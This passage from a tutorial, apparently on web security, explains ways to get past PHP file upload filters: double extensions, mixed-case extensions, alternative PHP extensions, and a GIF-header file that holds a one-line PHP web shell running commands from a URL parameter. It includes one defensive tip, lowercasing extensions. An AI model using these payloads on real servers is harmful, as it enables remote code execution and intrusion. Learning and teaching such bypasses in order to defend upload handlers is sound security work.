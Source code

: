 ### 3. File Name Obfuscation

You can create a file like:

```
shell.php.jpg
```

Put PHP code inside it. Sometimes the server checks only the extension `.jpg`, so it lets it through.

---

### 4. Fake Image with Embedded PHP

Open a notepad and write:

```
GIF89a
<?php system($_GET['cmd']); ?>
```

Save it as `evil.jpg`. It looks like an image, but it’s a real PHP file. If the server executes any extension, it’ll work as a shell.

---

### 5. Case Sensitivity in Extensions 

Some servers (like Windows/IIS) are **case-insensitive**, so the attacker might bypass filters by using:

```
shell.PHP
shell.PHp
shell.pHp
```

If the server doesn’t normalize extensions to lowercase, it may execute the file anyway.

> Always convert the extension to lowercase on the server-side using code like:

```php
$ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
```

---

### 6. Alternative Executable Extensions 

Some servers allow execution of other extensions besides `.php`. These are often legacy or obscure PHP extensions, such as:

| Extension | Description                          |
| --------- | ------------------------------------ |
| `.php`    | Standard PHP extension               |
| `.php3`   | Older PHP version                    |
| `.php4`   | Older PHP version                    |
| `.php5`   | Older PHP version                    |
| `.phtml`  | Alternative extension                |
| `.phps`   | Might show source but can be misused |
| `.phar`   | PHP Archive – sometimes executable   |
